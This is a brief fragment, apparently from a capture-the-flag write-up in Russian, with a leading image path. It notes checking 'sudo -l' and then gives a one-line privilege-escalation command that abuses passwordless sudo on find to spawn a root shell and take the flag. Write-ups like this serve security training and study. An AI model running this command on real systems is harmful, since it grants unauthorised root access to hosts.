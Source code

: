 проверяем sudo -l
Можно использовать find без пароля и забрать флаг
```
sudo find /etc -exec sh -i \;
```